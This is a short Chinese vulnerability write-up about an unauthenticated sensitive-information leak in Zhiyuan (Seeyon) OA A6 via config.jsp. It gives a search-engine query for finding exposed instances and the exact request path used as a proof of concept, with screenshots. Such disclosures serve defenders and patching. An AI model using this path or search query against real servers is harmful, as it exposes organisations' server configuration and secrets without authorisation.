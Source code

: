 # 致远OA A6 config.jsp 敏感信息泄漏漏洞

## 漏洞描述

致远OA A6 config.jsp页面可未授权访问，导致敏感信息泄漏漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="yyoa" && app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646054177060-6bebaa85-7683-4dd3-8120-39a633481f14.png)

验证POC

```javascript
	/yyoa/ext/trafaxserver/SystemManage/config.jsp
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646054254418-c88d4b28-ec92-4b79-80a4-7f9d4f1421fb.png)